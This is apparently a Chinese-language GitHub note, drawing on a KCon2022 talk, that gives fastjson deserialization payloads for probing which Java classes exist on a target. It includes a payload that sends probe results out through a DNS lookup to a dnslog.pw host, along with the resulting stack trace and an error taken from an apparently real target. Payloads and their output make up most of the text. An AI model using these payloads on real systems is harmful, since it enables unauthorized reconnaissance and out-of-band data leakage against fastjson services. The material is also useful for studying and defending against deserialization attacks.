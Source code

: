 ## Ref
- Hacking JSON by 浅蓝 at KCon2022

### class探测方法一
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187075915-8aba39ac-f013-42dd-88df-55c002b1fd48.png)

![image](https://user-images.githubusercontent.com/30398606/187075936-ee5058b5-b0f1-488f-8a4f-fab9eb1f31c4.png)


### class探测方法二
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187076001-59d835c5-b43c-4178-84dc-23bed90d2ff9.png)

![image](https://user-images.githubusercontent.com/30398606/187076020-5343e930-4c27-4b43-804b-caa2b99db350.png)

总之不存在的类就会报空指针异常，或者返回null的逻辑。

### class探测方法三
通过`java.util.Locale`类的language和country字段的连接。
```java
new Locale("a", "b").toString() == a_B
```
带出dnslog，不过这个域名里有大括号，不是每个dnslog服务都支持的。
用这个：http://dnslog.pw/dns/

```json
{"@type":"java.net.Inet4Address",
"val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"java.io.InputStream"}},"country":"x.fastjson.4wjna9kk.dnslog.pw"}}}
```
抛出异常`com.alibaba.fastjson.JSONException: deserialize inet adress error`：调用栈
```java
java.net.UnknownHostException: {"1":"java.io.inputstream"}_X.FASTJSON.4WJNA9KK.DNSLOG.PW
	at java.net.Inet6AddressImpl.lookupAllHostAddr(Native Method) ~[na:1.8.0_202]
	at java.net.InetAddress$2.lookupAllHostAddr(InetAddress.java:929) ~[na:1.8.0_202]
	at java.net.InetAddress.getAddressesFromNameService(InetAddress.java:1324) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName0(InetAddress.java:1277) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1193) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1127) ~[na:1.8.0_202]
	at java.net.InetAddress.getByName(InetAddress.java:1077) ~[na:1.8.0_202]
	at com.alibaba.fastjson.serializer.MiscCodec.deserialze(MiscCodec.java:335) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:395) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1401) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1367) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:183) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:193) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:149) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parseObject(JSON.java:254) ~[fastjson-1.2.70.jar:na]
```
但是碰到一个目标在这三个方法都报错：
```java
JSON parse error: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto; nested exception is com.alibaba.fastjson.JSONException: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto
```

后来自己大环境测试，知道了这里的代码应该是：
```
User ob = JSON.parseObject(params, User.class);
```
自己搭环境的截图：
![image](https://user-images.githubusercontent.com/30398606/187132282-7c178714-d126-45e6-9e49-023db25d7bfe.png)
